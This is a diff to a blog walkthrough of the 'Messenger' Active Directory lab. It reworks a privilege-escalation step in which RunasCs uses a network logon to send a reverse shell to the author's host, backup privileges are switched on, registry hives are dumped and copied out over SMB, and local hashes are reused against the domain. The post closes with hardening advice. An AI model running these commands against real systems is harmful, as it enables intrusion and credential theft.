

Rework Messenger svc_backup step around a NetworkCleartext logon

diff --git a/content/posts/messenger/index.md b/content/posts/messenger/index.md
@@ -1,7 +1,7 @@
 ---
 title: "Messenger 💬"
 date: 2026-11-20
-summary: "A medium-difficulty Active Directory lab where a Kerberoasted service account's GenericWrite and AddSelf over a group open a file share holding a reused password, Backup Operators rights on the file server give up a local hash shared with a domain account, and an Output Messenger chat reached through a Ligolo-ng tunnel hands over credentials whose WriteDacl over the domain grants DCSync."
+summary: "A medium-difficulty Active Directory lab where a Kerberoasted service account's GenericWrite and AddSelf over a group open a file share holding a reused password, the same account's SeBackupPrivilege on the file server gives up a local hash shared with a domain account, and an Output Messenger chat reached through a Ligolo-ng tunnel hands over credentials whose WriteDacl over the domain grants DCSync."
 platforms: ["Hack Smarter Labs"]
 tags: ["Active Directory"]
 difficulty: "Medium"
@@ -11,7 +11,7 @@ cover:
   hidden: true
 ---
 
-In this walkthrough, we will be compromising Messenger, a medium-difficulty Active Directory lab from Hack Smarter Labs, starting from assumed-breach credentials for `kyoma` against three hosts: the domain controller DC01, a file server, FILESRV01, and a messaging server, MSGSRV01. `kyoma` can Kerberoast `svc_backup`, whose cracked password, plus `GenericWrite` and `AddSelf` over the `File Management` group, opens two shares on FILESRV01, and a notebook config in one of them holds a password that also works for `nae`. From a WinRM shell as `nae` on FILESRV01, RunasCs gives us a shell as `svc_backup`, a member of that host's local Backup Operators group, and backing up the registry hives over the network gives up its local SAM. A local `moeka` account in it shares its password with the domain account `moeka`, which opens a WinRM shell on MSGSRV01. A spreadsheet there holds `moeka`'s Output Messenger login, and a Ligolo-ng tunnel reaches the chat server's web client, where a help desk message carries `braun`'s password. `braun` holds `WriteDacl` over the domain, so we grant it DCSync rights, dump every hash from DC01, and log in as the domain Administrator.
+In this walkthrough, we will be compromising Messenger, a medium-difficulty Active Directory lab from Hack Smarter Labs, starting from assumed-breach credentials for `kyoma` against three hosts: the domain controller DC01, a file server, FILESRV01, and a messaging server, MSGSRV01. `kyoma` can Kerberoast `svc_backup`, whose cracked password, plus `GenericWrite` and `AddSelf` over the `File Management` group, opens two shares on FILESRV01, and a notebook config in one of them holds a password that also works for `nae`. From a WinRM shell as `nae` on FILESRV01, RunasCs with a NetworkCleartext logon gives us a shell as `svc_backup` whose token carries SeBackupPrivilege, and switching it on lets us save the host's SAM. A local `moeka` account in it shares its password with the domain account `moeka`, which opens a WinRM shell on MSGSRV01. A spreadsheet there holds `moeka`'s Output Messenger login, and a Ligolo-ng tunnel reaches the chat server's web client, where a help desk message carries `braun`'s password. `braun` holds `WriteDacl` over the domain, so we grant it DCSync rights, dump every hash from DC01, and log in as the domain Administrator.
 
 ![Messenger machine card](images/machine-card.png)
 
@@ -622,7 +622,29 @@ Over WinRM, NetExec's `(Pwn3d!)` means the account can open a remote shell, and 
 evil-winrm -i '10.1.207.33' -u 'nae' -p 'ChipmunKid314'
 ```
 
-We work through the usual host enumeration on FILESRV01 as `nae`, and none of it turns up a way to escalate from `nae` itself.
+We work through the usual host enumeration on FILESRV01 as `nae`. None of it turns up a way to escalate from `nae` itself, but listing `C:\Users` shows who else has used the host.
+
+```
+dir
+```
+
+```
+    Directory: C:\Users
+
+
+Mode                 LastWriteTime         Length Name
+----                 -------------         ------ ----
+d-----         10/8/2026   8:31 AM                Administrator
+d-----         10/7/2026   8:16 AM                nae
+d-r---         5/21/2026   9:15 AM                Public
+d-----         10/7/2026   8:14 AM                svc_backup
+```
+
+![FILESRV01 user profiles](images/users-folder-filesrv01.png)
+
+*C:\Users on FILESRV01 in the nae session, with a profile folder for svc_backup*
+
+`svc_backup` has a profile folder here, so the account has logged on to FILESRV01 before.
 
 ## Shell as svc_backup
 
@@ -633,7 +655,7 @@ upload Invoke-RunasCs.ps1
 ```
 
 ```
-Info: Uploading /home/kali/Desktop/ctf/hack_smarter_labs/active_directory/medium/messenger/Invoke-RunasCs.ps1 to C:\Users\nae\Documents\Invoke-RunasCs.ps1
+Info: Uploading /home/kali/Desktop/ctf/hack_smarter_labs/active_directory/medium/messenger/Invoke-RunasCs.ps1 to C:\Users\Nae\Desktop\Invoke-RunasCs.ps1
                                         
 Info: Upload successful!
 ```
@@ -650,23 +672,23 @@ We start Penelope, a reverse shell handler, and leave it listening on our port.
 penelope -p 1337
 ```
 
-We give RunasCs the `svc_backup` credentials and `cmd.exe` to launch, so the shell that calls back is running as that account. RunasCs uses an interactive logon by default.
+We give RunasCs the `svc_backup` credentials and `cmd.exe` to launch, so the shell that calls back is running as that account. RunasCs uses an interactive logon by default, and UAC filters the token of an interactive logon for an account with elevated rights. Type 8, NetworkCleartext, is a network logon where the program hands Windows the plaintext password, and UAC leaves a domain account's network logon unfiltered. `-LogonType 8` asks for it, and `-BypassUac` is what lets RunasCs start the shell under it from this session instead of falling back to an interactive logon.
 
 ```
-Invoke-RunasCs -Username svc_backup -Password 'ibm.2000' -Domain sern.local -Command "cmd.exe" -Remote 10.200.121.154:1337
+Invoke-RunasCs -Username svc_backup -Password 'ibm.2000' -Domain sern.local -Command "cmd.exe" -Remote 10.200.121.154:1337 -BypassUac -LogonType 8
 ```
 
 Update the IP and port to your own.
 
 ```
 [+] Running in session 0 with process function CreateProcessWithLogonW()
-[+] Using Station\Desktop: Service-0x0-131dfd$\Default
-[+] Async process 'C:\Windows\system32\cmd.exe' with pid 1120 created in background.
+[+] Using Station\Desktop: Service-0x0-4e737d$\Default
+[+] Async process 'C:\Windows\system32\cmd.exe' with pid 3784 created in background.
 ```
 
 ![RunasCs as svc_backup](images/runascs-svc-backup.png)
 
-*Invoke-RunasCs in the nae session on FILESRV01, starting cmd.exe as svc_backup with a reverse shell to our host*
+*Invoke-RunasCs in the nae session on FILESRV01 with -BypassUac and -LogonType 8, starting cmd.exe as svc_backup with a reverse shell to our host*
 
 Penelope catches the shell.
 
@@ -682,127 +704,151 @@ sern\svc_backup
 
 *Penelope receiving the RunasCs reverse shell running as sern\svc_backup*
 
-We look at the account's groups and privileges.
+We check its privileges.
 
 ```
-whoami /all
+whoami /priv
 ```
 
 ```
-USER INFORMATION
-----------------
-
-User Name       SID                                         
-=============== ============================================
-sern\svc_backup S-1-5-21-2387301235-874641830-263055908-1109
-
-GROUP INFORMATION
------------------
-
-Group Name                                 Type             SID                                          Attributes                                        
-========================================== ================ ============================================ ==================================================
-Everyone                                   Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
-BUILTIN\Backup Operators                   Alias            S-1-5-32-551                                 Group used for deny only                          
-BUILTIN\Users                              Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
-NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                      Mandatory group, Enabled by default, Enabled group
-CONSOLE LOGON                              Well-known group S-1-2-1                                      Mandatory group, Enabled by default, Enabled group
-NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
-NT AUTHORITY\This Organization             Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
-SERN\File Management                       Group            S-1-5-21-2387301235-874641830-263055908-1110 Mandatory group, Enabled by default, Enabled group
-Authentication authority asserted identity Well-known group S-1-18-1                                     Mandatory group, Enabled by default, Enabled group
-Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                    
-
 PRIVILEGES INFORMATION
 ----------------------
 
 Privilege Name                Description                    State   
 ============================= ============================== ========
+SeBackupPrivilege             Back up files and directories  Disabled
+SeRestorePrivilege            Restore files and directories  Disabled
+SeShutdownPrivilege           Shut down the system           Enabled 
 SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
-SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
-
-USER CLAIMS INFORMATION
------------------------
-
-User claims unknown.
-
-Kerberos support for Dynamic Access Control on this device has been disabled.
+SeIncreaseWorkingSetPrivilege Increase a process working set Enabled 
 ```
 
-![svc_backup groups and privileges](images/whoami-backup-operators.png)
+![svc_backup privileges](images/whoami-priv-svc-backup.png)
 
-*whoami /all in the svc_backup shell on FILESRV01, with Backup Operators listed as deny only and no SeBackupPrivilege*
+*whoami /priv in the svc_backup shell on FILESRV01, with SeBackupPrivilege and SeRestorePrivilege present but disabled*
 
-`svc_backup` is in `BUILTIN\Backup Operators`, which on a member server is the host's own local group, so these are backup rights on FILESRV01 rather than on DC01. Backup Operators can connect to a host's administrative shares, which accounts for `svc_backup`'s `ADMIN$` and `C$` access. Backup Operators holds SeBackupPrivilege, which lets a member read any file on the host regardless of its DACL, including the registry hives that hold local credentials, so we try saving the SAM.
+The token holds SeBackupPrivilege and SeRestorePrivilege, both disabled. SeBackupPrivilege lets an account read any file on the host regardless of its DACL, including the registry hives that hold local credentials, so we switch it on and save the hives.
+
+[EnableAllTokenPrivs](https://github.com/fashionproof/EnableAllTokenPrivs) is a PowerShell script that switches on every privilege its PowerShell process already holds. We download it on our host.
 
 ```
-reg save HKLM\SAM C:\Windows\Temp\sam.save
+wget https://github.com/fashionproof/EnableAllTokenPrivs/raw/master/EnableAllTokenPrivs.ps1
 ```
 
 ```
-File C:\Windows\Temp\sam.save already exists. Overwrite (Yes/No)?yes
-ERROR: A required privilege is not held by the client.
+--2026-11-21 20:15:57--  https://github.com/fashionproof/EnableAllTokenPrivs/raw/master/EnableAllTokenPrivs.ps1
+Resolving github.com (github.com)... 140.82.112.4
+Connecting to github.com (github.com)|140.82.112.4|:443... connected.
+HTTP request sent, awaiting response... 302 Found
+Location: https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1 [following]
+--2026-11-21 20:15:57--  https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1
+Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.109.133, ...
+Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
+HTTP request sent, awaiting response... 200 OK
+Length: 3449 (3.4K) [text/plain]
+Saving to: ‘EnableAllTokenPrivs.ps1’
+
+EnableAllTokenPrivs.ps1                                         100%[====================================================================================================================================================>]   3.37K  --.-KB/s    in 0s      
+
+2026-11-21 20:15:58 (80.3 MB/s) - ‘EnableAllTokenPrivs.ps1’ saved [3449/3449]
 ```
 
-![reg save failing](images/reg-save-failed.png)
+We upload it through the `nae` Evil-WinRM session to `C:\ProgramData`, which every user on the host can read by default, so the `svc_backup` shell can run it. The path goes in single quotes so Evil-WinRM keeps its backslashes.
 
-*reg save in the svc_backup shell on FILESRV01, refused because the privilege is not held*
+```
+upload EnableAllTokenPrivs.ps1 'C:\ProgramData\EnableAllTokenPrivs.ps1'
+```
 
-The `whoami /all` output explains the failure: Backup Operators is marked `Group used for deny only`, and SeBackupPrivilege is not in the token. UAC filters the token of an interactive logon by a member of Backup Operators, and RunasCs logs on interactively by default, so the shell runs at medium integrity without the privilege.
+![Script uploaded to FILESRV01](images/upload-enablealltokenprivs.png)
+
+*Evil-WinRM in the nae session uploading EnableAllTokenPrivs.ps1 to C:\ProgramData on FILESRV01*
+
+The shell is `cmd.exe`, so we start PowerShell in it.
+
+```
+powershell
+```
+
+We run the script, which returns silently.
+
+```
+C:\ProgramData\EnableAllTokenPrivs.ps1
+```
+
+Then we check the privileges again.
+
+```
+whoami /priv
+```
+
+```
+PRIVILEGES INFORMATION
+----------------------
+
+Privilege Name                Description                    State  
+============================= ============================== =======
+SeBackupPrivilege             Back up files and directories  Enabled
+SeRestorePrivilege            Restore files and directories  Enabled
+SeShutdownPrivilege           Shut down the system           Enabled
+SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
+SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
+```
+
+![Privileges switched on](images/privs-enabled.png)
+
+*whoami /priv in the svc_backup PowerShell session after EnableAllTokenPrivs, with SeBackupPrivilege and SeRestorePrivilege enabled*
+
+Both now show as enabled. From the same PowerShell session, we try to save all three hives as standard practice. The local account hashes sit in `SAM`, encrypted with a key derived from the boot key in `SYSTEM`, and `SECURITY` holds the LSA secrets and cached domain logons.
+
+```
+reg save HKLM\SAM C:\ProgramData\sam.save
+reg save HKLM\SYSTEM C:\ProgramData\system.save
+reg save HKLM\SECURITY C:\ProgramData\security.save
+```
+
+```
+The operation completed successfully.
+The operation completed successfully.
+ERROR: Access is denied.
+```
+
+![Hives saved with reg save](images/reg-save-hives.png)
+
+*reg save in the svc_backup shell saving the SAM and SYSTEM hives, with SECURITY refused*
+
+`reg save` refuses `SECURITY` with `Access is denied`, but `SAM` and `SYSTEM` are enough. We serve an SMB share from our host and copy both hives to it from the same `svc_backup` session. The share takes a username and password, because FILESRV01 refuses to connect to one as a guest.
+
+```
+impacket-smbserver share ./ -smb2support -username 0xB1rd -password 0xB1rd
+```
+
+In the `svc_backup` session, we connect to the share with those credentials.
+
+```
+net use \\10.200.121.154\share /user:0xB1rd 0xB1rd
+```
+
+```
+The command completed successfully.
+```
+
+Then we copy both hives, and `copy` prints nothing when it works.
+
+```
+copy C:\ProgramData\sam.save \\10.200.121.154\share\
+copy C:\ProgramData\system.save \\10.200.121.154\share\
+```
 
 ## Access as moeka
 
-Over the network, UAC filters only local accounts, so a domain account like `svc_backup` authenticating over SMB carries its full Backup Operators token. impacket-reg can back up the `SAM`, `SYSTEM`, and `SECURITY` hives through the remote registry and write them to a share, so we start one on our host.
+With the hives on our host, impacket-secretsdump parses them locally.
 
 ```
-impacket-smbserver share ./ -smb2support
-```
-
-Then we run the backup against FILESRV01 as `svc_backup`.
-
-```
-impacket-reg 'sern.local/svc_backup:ibm.2000@10.1.207.33' backup -o '\\10.200.121.154\share'
+impacket-secretsdump -sam sam.save -system system.save LOCAL
 ```
 
 ```
-Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
-
-[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
-[*] Saved HKLM\SAM to \\10.200.121.154\share\SAM.save
-[-] Couldn't save HKLM\SYSTEM: The NETBIOS connection with the remote host timed out.
-[-] Error occurs while reading from remote(104)
-```
-
-impacket-reg saves `SAM`, then reports a timeout on `SYSTEM` and stops before it reaches `SECURITY`. We check what landed in the share.
-
-```
-ls -lh
-```
-
-```
-total 19M
--rw------- 1 kali kali 4.9K Nov 19 17:45 challenge_lab_messen.ovpn
--rw-rw-r-- 1 kali kali 143K Nov 19 19:21 DC01_10.1.33.51_2026-11-19_191902_bloodhound.zip
-drwxrwxr-x 2 kali kali 4.0K Nov 19 19:52 dev
--rw-rw-r-- 1 kali kali   35 Nov 19 19:16 hosts.txt
--rw-rw-r-- 1 kali kali  87K Nov 19 20:01 Invoke-RunasCs.ps1
--rwxrwxr-x 1 kali kali  44K Nov 20 20:28 SAM.save
--rw-rw-r-- 1 kali kali 2.1K Nov 19 19:39 svc_backup_kerb.txt
--rwxrwxr-x 1 kali kali  19M Nov 20 20:34 SYSTEM.save
--rw-rw-r-- 1 kali kali   16 Nov 19 19:48 users.txt
-```
-
-![Hives in the share](images/hives-landed.png)
-
-*SAM.save and SYSTEM.save in our SMB share after the impacket-reg backup, with no SECURITY.save*
-
-`SAM.save` is there, and so is a 19M `SYSTEM.save`, written six minutes after it. `SECURITY.save` is missing, but we do not need it: `SECURITY` holds the LSA secrets and cached domain logons, while the local account hashes sit in `SAM`, encrypted with a key derived from the boot key in `SYSTEM`. impacket-secretsdump parses the two hives locally.
-
-```
-impacket-secretsdump -sam SAM.save -system SYSTEM.save LOCAL
-```
-
-```
-Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
+Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 
 
 [*] Target system bootKey: 0x9f6f3c854f7b832790ebd8675aa969ca
 [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
@@ -811,33 +857,24 @@ Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:f08bb0f2a18087aebde05a88e8562905:::
 moeka:1000:aad3b435b51404eeaad3b435b51404ee:3db7b1172736f9269dc00118e536a07b:::
-[*] Cleaning up... 
+[*] Cleaning up...
 ```
 
 ![FILESRV01 hives parsed](images/secretsdump-local.png)
 
 *impacket-secretsdump parsing the FILESRV01 hives, with the local moeka hash in the SAM*
 
-secretsdump reads the boot key out of `SYSTEM.save`, so the copy that landed despite the timeout is usable. Alongside the built-in accounts, FILESRV01's SAM holds a local account named `moeka`, RID (relative identifier) 1000. john does not crack its hash, but `moeka` is also a domain account from the `--users` output, so we test the local hash against the domain.
+Alongside the built-in accounts, FILESRV01's SAM holds a local account named `moeka`, RID (relative identifier) 1000. john does not crack its hash, but `moeka` is also a domain account from the `--users` output, so we test the local hash against the domain.
 
 ```
 nxc smb hosts.txt -u 'moeka' -H '3db7b1172736f9269dc00118e536a07b' --shares
 ```
 
 ```
+SMB         10.1.207.33     445    FILESRV01        [*] Windows Server 2022 Build 20348 x64 (name:FILESRV01) (domain:sern.local) (signing:True) (SMBv1:None)
 SMB         10.1.33.51      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:sern.local) (signing:True) (SMBv1:None) (Null Auth:True)
-SMB         10.1.207.33     445    FILESRV01        [*] Windows Server 2022 Build 20348 x64 (name:FILESRV01) (domain:sern.local) (signing:False) (SMBv1:None)
-SMB         10.1.33.51      445    DC01             [+] sern.local\moeka:3db7b1172736f9269dc00118e536a07b 
 SMB         10.1.207.33     445    FILESRV01        [+] sern.local\moeka:3db7b1172736f9269dc00118e536a07b 
-SMB         10.1.33.51      445    DC01             [*] Enumerated shares
-SMB         10.1.33.51      445    DC01             Share           Permissions     Remark
-SMB         10.1.33.51      445    DC01             -----           -----------     ------
-SMB         10.1.33.51      445    DC01             ADMIN$                          Remote Admin
-SMB         10.1.33.51      445    DC01             C$                              Default share
-SMB         10.1.33.51      445    DC01             IPC$            READ            Remote IPC
-SMB         10.1.33.51      445    DC01             NETLOGON        READ            Logon server share 
-SMB         10.1.33.51      445    DC01             SYSVOL          READ            Logon server share 
-SMB         10.1.150.10     445    MSGSRV01         [*] Windows Server 2022 Build 20348 (name:MSGSRV01) (domain:sern.local) (signing:False) (SMBv1:None)
+SMB         10.1.33.51      445    DC01             [+] sern.local\moeka:3db7b1172736f9269dc00118e536a07b 
 SMB         10.1.207.33     445    FILESRV01        [*] Enumerated shares
 SMB         10.1.207.33     445    FILESRV01        Share           Permissions     Remark
 SMB         10.1.207.33     445    FILESRV01        -----           -----------     ------
@@ -846,6 +883,15 @@ SMB         10.1.207.33     445    FILESRV01        C$                          
 SMB         10.1.207.33     445    FILESRV01        DEV                             
 SMB         10.1.207.33     445    FILESRV01        HR                              
 SMB         10.1.207.33     445    FILESRV01        IPC$            READ            Remote IPC
+SMB         10.1.150.10     445    MSGSRV01         [*] Windows Server 2022 Build 20348 (name:MSGSRV01) (domain:sern.local) (signing:True) (SMBv1:None)
+SMB         10.1.33.51      445    DC01             [*] Enumerated shares
+SMB         10.1.33.51      445    DC01             Share           Permissions     Remark
+SMB         10.1.33.51      445    DC01             -----           -----------     ------
+SMB         10.1.33.51      445    DC01             ADMIN$                          Remote Admin
+SMB         10.1.33.51      445    DC01             C$                              Default share
+SMB         10.1.33.51      445    DC01             IPC$            READ            Remote IPC
+SMB         10.1.33.51      445    DC01             NETLOGON        READ            Logon server share 
+SMB         10.1.33.51      445    DC01             SYSVOL          READ            Logon server share 
 SMB         10.1.150.10     445    MSGSRV01         [+] sern.local\moeka:3db7b1172736f9269dc00118e536a07b 
 SMB         10.1.150.10     445    MSGSRV01         [*] Enumerated shares
 SMB         10.1.150.10     445    MSGSRV01         Share           Permissions     Remark
@@ -1227,8 +1273,8 @@ We have a shell on DC01 as the domain Administrator. `root.txt` is on the Admini
 
 ## Final Thoughts
 
-The hive backup took a second attempt. When `reg save` failed in the RunasCs shell, I backed the hives up over the network instead.
+SeBackupPrivilege was in `svc_backup`'s token from the start, just switched off, and I could only save the hives once I turned it on with EnableAllTokenPrivs.
 
-Service accounts with SPNs belong on gMSA or a PAM-managed password, so a roasted ticket produces nothing crackable. A password typed on a command line or saved in a script belongs in a credential prompt or a vault. Backup Operators on a server can read its SAM and LSA secrets, so a service account has no place in it, and a local account's password should never double as a domain password. Credentials belong in a password manager, not a spreadsheet or a chat history. `svc_backup` held `GenericWrite` and `AddSelf` over File Management and `braun` held `WriteDacl` over the domain, and object-level rights like these need auditing on a schedule rather than at build time.
+Service accounts with SPNs belong on gMSA or a PAM-managed password, so a roasted ticket produces nothing crackable. A password typed on a command line or saved in a script belongs in a credential prompt or a vault. SeBackupPrivilege on a server can read its SAM, so it does not belong on a service account, and a local account's password should never double as a domain password. Credentials belong in a password manager, not a spreadsheet or a chat history. `svc_backup` held `GenericWrite` and `AddSelf` over File Management and `braun` held `WriteDacl` over the domain, and object-level rights like these need auditing on a schedule rather than at build time.
 
 — 0xB1rd
